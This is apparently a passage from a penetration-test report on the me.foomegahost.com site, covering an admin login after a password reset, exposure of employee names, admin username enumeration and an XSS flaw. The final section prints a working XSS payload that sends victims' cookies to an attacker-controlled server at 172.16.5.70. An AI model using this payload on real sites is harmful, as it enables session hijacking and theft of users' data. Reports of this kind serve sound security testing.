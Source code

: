 Now that we have changed the password for the `admin` user, we can log in to the admin area using the `admin` username and `admin` password.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b1e8aa4f-c629-4914-a32e-ac6656734128/Untitled.png)

### Miscellaneous

#### Information Disclosure

Listing the names of employees and clients on a website may pose a security risk as it can potentially allow attackers to gather sensitive information about them. This information can be misused for targeted attacks such as spear phishing, social engineering, or identity theft. It is important for organizations to carefully consider the information they make public on their website and implement appropriate measures to protect their employees and clients.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7d5b7515-2231-499f-b537-a8582a115f05/Untitled.png)

#### Admin Username Disclosure

If an adversary attempts to log in to the `me.foomegahost.com` members site using a non-administrator username, no particular error message is shown, but when the username `admin` is used, the site responds with a specific error message indicating the existence of the admin account. This can be exploited to carryout bruteforce attacks against the `admin` username.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6e9630b7-e272-4e88-a4ac-c84a04706f70/Untitled.png)

#### XSS Vulnerability

Cross-site scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious code, usually in the form of a script, into a vulnerable website that is then executed in a victim's web browser. This can lead to the theft of sensitive information, such as user credentials or payment information, or the hijacking of the user's session. The screenshots are attached below.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6bebaa2f-68d4-4291-8e4d-1e5084338382/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4c224f43-eb5e-4ec3-bb82-f2c5b4d3c3c8/Untitled.png)

#### Exfiltrating Cookies

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/795a3360-cba3-48f3-a579-f0b5675623b3/Untitled.png)

Additionally, the attacker can use the stolen cookies to impersonate the user and perform actions on their behalf. The following is an example proof-of-concept (PoC) showing how cookies can be exfiltrated to a Kali server using a simple XSS payload.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/613f77ba-d10e-477b-ad93-f0174da6b08e/Untitled.png)

```jsx
<script>var i=new Image();i.src="<http://172.16.5.70:8001/loot.php?q=>"+document.cookie;</script>
```

This payload creates a new image object and sets its source to a remote server, along with the user's cookie data. The remote server can now log the cookie data and use it for malicious purposes. It is important to note that XSS vulnerabilities can have serious consequences and should be addressed promptly to prevent attacks.
